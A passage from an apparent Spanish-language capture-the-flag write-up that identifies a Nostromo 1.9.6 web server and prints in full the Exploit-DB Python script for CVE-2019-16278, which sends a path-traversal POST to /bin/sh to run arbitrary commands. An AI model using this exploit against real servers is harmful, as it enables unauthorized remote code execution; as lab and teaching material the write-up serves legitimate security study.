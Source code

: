 En el output del escaneo con nmap, encontramos que el servidor web que está corriendo se llama `Nostromo` y la versión es la `1.9.6`. Consultando acerca de este servidor, Nostromo también es llamado `nhttpd` que es un servidor HTTP simple y rápido que corre como un único proceso. 


## Explotación

Buscando la versión 1.9.6 de Nostromo, encontramos en  [Exploit-db](https://www.exploit-db.com/exploits/47837) que esta versión es vulnerable a la ejeción de código remoto y corresponde al `CVE-2019-16278`.

El script está escrito en Python y se presenta a continuación

```python
#!/usr/bin/env python

import sys
import socket

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":
    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)
   
    except IndexError:
        print(help_menu)
```
